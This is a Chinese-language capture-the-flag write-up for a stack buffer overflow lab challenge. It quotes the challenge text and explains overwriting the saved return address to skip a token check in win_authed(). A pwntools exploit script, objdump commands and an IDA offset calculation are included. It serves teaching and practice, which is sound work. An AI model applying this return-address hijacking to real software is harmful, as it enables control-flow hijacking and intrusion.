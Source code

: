 # 挑战简介
```
我们的堆栈指针指向 0x7ffce9a5dd10，基指针指向 0x7ffce9a5ddb0。
这意味着我们的堆栈框架中有（十进制）22 个 8 字节字，
包括保存的基指针和保存的返回地址，
总共 176 个字节。
输入缓冲区从 0x7ffce9a5dd30 开始，位于堆栈框架的中途，
（堆栈中“上方”是函数使用的其他局部变量）。
您的输入将被读入此缓冲区。
缓冲区长度为 113 个字节，但程序会让您提供任意大的输入长度，从而溢出缓冲区。

在这个级别中，没有“win”变量。
您需要强制程序执行 win_authed() 函数，方法是直接溢出到存储的返回地址，返回到 main，该地址存储在 0x7ffce9a5ddb8，即输入缓冲区开始后的 136 个字节。
这意味着您需要输入至少 144 个字节（113 个用于填充缓冲区，23 个用于填充存储在缓冲区和返回地址之间的其他内容，8 个将覆盖返回地址）。
我们已针对此挑战禁用以下标准内存损坏缓解措施：
- 禁用 canary，否则您会在覆盖返回地址之前损坏它，程序将中止。
- 二进制文件*不是*位置无关的。这意味着每次运行时它都会位于同一位置，这意味着通过分析二进制文件（使用 objdump 或读取此输出），您可以知道覆盖返回地址所需的确切值。
您已选择发送 4096 个字节的输入！
这将允许您从 0x7ffce9a5dd30（输入缓冲区的起始位置）写入
直到（但不包括）0x7ffce9a5ed30（超出缓冲区末尾 3983 个字节）。
其中，您将覆盖 3960 个字节到返回地址。
如果该数字大于 8，您将覆盖整个返回地址。

此挑战的一个警告是 win_authed() 函数必须首先进行身份验证：
只有当您为其提供参数 0x1337 时，它才会让您获胜。
具体来说，win_authed() 函数看起来像：
void win_authed(int token)
{
if (token != 0x1337) return;
puts("您赢了！这是您的标志：");
sendfile(1, open("/flag", 0), 0, 256);
puts("");
}

那么你如何通过检查呢？有一种方法，我们稍后会介绍，但现在，我们只是绕过它！你可以用任何值覆盖返回地址（只要它指向可执行代码），而不仅仅是函数的开头。让我们在 win 中覆盖令牌检查！

为此，我们需要使用 objdump 分析程序，确定检查在 win_authed() 函数中的位置，找到检查后的地址，并将该地址写入保存的返回地址。

现在继续找到这个地址。准备好后，输入一个缓冲区溢出，它将用正确的值覆盖保存的返回地址（在 0x7ffce9a5ddb8，136 字节进入缓冲区）。

发送你的有效载荷（最多 4096 字节）！
```
# 思路
😔这题思路找错了，卡了两天，做的头脑火热...

我来说说这题意思吧

本题需注意:
- 没有win()函数，取而代之的是win_authed()函数
- win_authed()函数需要你输入参数0x1337来通过校验
- 但是你是栈溢出，所以你需要跳过栈检验，修改返回的函数地址，跳过需要检验的地址
- 你并不需要输入0x1337，只需要修改函数的返回地址

**以上**  
---
**以下**  
关于找出函数地址  
找到函数地址  
objdump -t binary_file | grep win_authed  

反汇编目标函数：  
objdump -d binary_file | less  


```
#!/usr/bin/python
from pwn import *
import struct

context(os='linux',arch='AMD64',log_level='debug')
p = process('/challenge/binary-exploitation-control-hijack-2-w')

p.recvuntil('Send your payload (up to 4096 bytes)!\n')
win_authed_address = p64(0x401a37)    #此乃找到的，恰好跳过校验的地址
payload = b'a' * 136 + win_authed_address
p.send(payload)
p.recvall()
```

2025-01-25
**补充:**
对于如何得出136这样具体的溢出数字，我这里找到了原因
```
__int64 __fastcall challenge(int a1, __int64 a2, __int64 a3)
{
  int *v3; // rax
  char *v4; // rax
  _QWORD v6[3]; // [rsp+0h] [rbp-A0h] BYREF
  int v7; // [rsp+1Ch] [rbp-84h]
  __int64 buf[14]; // [rsp+20h] [rbp-80h] BYREF
  char v9; // [rsp+90h] [rbp-10h]
  unsigned int v10; // [rsp+94h] [rbp-Ch]
  size_t nbytes; // [rsp+98h] [rbp-8h]
  __int64 savedregs; // [rsp+A0h] [rbp+0h] BYREF
  void *retaddr; // [rsp+A8h] [rbp+8h] BYREF
```
这是ida从challenge函数中截出的一段
我们发现rsp+A8h处，有进行函数地址的返回;而读取则输进的是buffer数组
A8h-20h(16进制算法)=136
**至此**
